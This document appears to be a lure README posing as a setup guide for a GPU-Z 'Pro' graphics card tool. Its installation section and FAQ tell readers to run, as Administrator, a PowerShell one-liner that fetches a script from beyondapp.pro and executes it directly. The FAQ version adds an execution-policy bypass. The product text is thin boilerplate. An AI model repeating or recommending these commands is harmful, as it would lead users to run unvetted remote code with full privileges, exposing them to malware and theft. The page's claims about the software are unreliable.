

<div align="center">


# GPU-Z Graphics Card Analyzer Pro Complete Setup Guide
**Graphics card details and sensors — VRAM, driver, clocks and temperature.**



</div>

---

> Graphics card details and sensors — VRAM, driver, clocks and temperature.

## `ABOUT`

GPU-Z Graphics Card Analyzer Pro Complete Setup Guide — Graphics card details and sensors — VRAM, driver, clocks and temperature.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎮 **GPU details** — Exact model, VRAM, bus and driver version.
🌡️ **Live sensors** — GPU temperature, clock and load in real time.
📊 **BIOS dump** — Save and compare VGA BIOS versions.
🔍 **Validation** — Submit GPU specs to TechPowerUp database.
🔧 **Gamer essential** — Check if GPU is recognized correctly.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB recommended |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section above.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>What does this tool do?</b></summary>
<br>Graphics card details and sensors — VRAM, driver, clocks and temperature.
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Re-run the same PowerShell command to fetch the latest build.
</details>
